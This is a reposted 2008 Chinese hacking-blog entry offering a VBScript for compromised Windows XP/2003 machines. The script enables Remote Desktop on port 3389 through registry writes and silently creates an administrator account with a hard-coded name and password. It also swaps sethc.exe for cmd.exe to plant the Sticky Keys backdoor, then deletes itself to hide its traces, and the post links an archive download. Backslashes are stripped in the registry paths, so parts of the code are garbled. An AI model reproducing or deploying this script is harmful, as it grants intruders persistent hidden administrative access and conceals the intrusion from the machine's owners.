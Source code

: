```yaml
---
title: XP、2003开3389+非net创建管理用户+Shift后门+自删除脚本vbs
description: 孤狐浪子来源红狼
date: 2008-02-26 09:31:45
category: 技术文章
tags: ['Windows', 'VBS', '脚本Script']
post_id: 383
alias: XP-2003-open3389-SHIFTbackdoor-vbs
ViewNums: 5289
---
```


作者：孤狐浪子
来源：红狼

on error resume next
const HKEY_LOCAL_MACHINE = &H80000002
strComputer = "."
Set StdOut = WScript.StdOut
Set oReg=GetObject("winmgmts:{impersonationLevel=impersonate}!\" &_
strComputer & "
ootdefault:StdRegProv")
strKeyPath = "SYSTEMCurrentControlSetControlTerminal Server"
oReg.CreateKey HKEY_LOCAL_MACHINE,strKeyPath
strKeyPath = "SYSTEMCurrentControlSetControlTerminal ServerWds
dpwdTds cp"
oReg.CreateKey HKEY_LOCAL_MACHINE,strKeyPath
strKeyPath = "SYSTEMCurrentControlSetControlTerminal ServerWinStationsRDP-Tcp"
strKeyPath = "SYSTEMCurrentControlSetControlTerminal Server"
strValueName = "fDenyTSConnections"
dwValue = 0
oReg.SetDWORDValue HKEY_LOCAL_MACHINE,strKeyPath,strValueName,dwValue
strKeyPath = "SYSTEMCurrentControlSetControlTerminal ServerWds
dpwdTds cp"
strValueName = "PortNumber"
dwValue = 3389
oReg.SetDWORDValue HKEY_LOCAL_MACHINE,strKeyPath,strValueName,dwValue
strKeyPath = "SYSTEMCurrentControlSetControlTerminal ServerWinStationsRDP-Tcp"
strValueName = "PortNumber"
dwValue = 3389
oReg.SetDWORDValue HKEY_LOCAL_MACHINE,strKeyPath,strValueName,dwValue
on error resume next
dim username,password:If Wscript.Arguments.Count Then:username=Wscript.Arguments(0):password=Wscript.Arguments(1):Else:username="HackEr":password="393214425":end if:set wsnetwork=CreateObject("WSCRIPT.NETWORK"):os="WinNT://"&wsnetwork.ComputerName:Set ob=GetObject(os):Set oe=GetObject(os&"/Administrators,group"):Set od=ob.Create("user",username):od.SetPassword password:od.SetInfo:Set of=GetObject(os&"/"&username&",user"):oe.Add(of.ADsPath)'wscript.echo of.ADsPath
On Error Resume Next
Dim obj, success
Set obj = CreateObject("WScript.Shell")
success = obj.run("cmd /c takeown /f %SystemRoot%system32sethc.exe&echo y| cacls %SystemRoot%system32sethc.exe /G %USERNAME%:F&copy; %SystemRoot%system32cmd.exe %SystemRoot%system32acmd.exe&copy; %SystemRoot%system32sethc.exe %SystemRoot%system32asethc.exe&del %SystemRoot%system32sethc.exe&ren %SystemRoot%system32acmd.exe sethc.exe", 0, True)
CreateObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptName)

BY:孤狐浪子 QQ:393214425
BLOG:itpro.blog.163.com

附件下载地址：
[开3389+非net创建管理用户+Shift后门+自删除脚本.rar](/blog/download.asp?id=52 "http://201314.free.fr/attachments/200801/%bf%aa3389_%b7%c7net%b4%b4%bd%a8%b9%dc%c0%ed%d3%c3%bb%a7_shift%ba%f3%c3%c5_%d7%d4%c9%be%b3%fd%bd%c5%b1%be.rar" (1 KB)

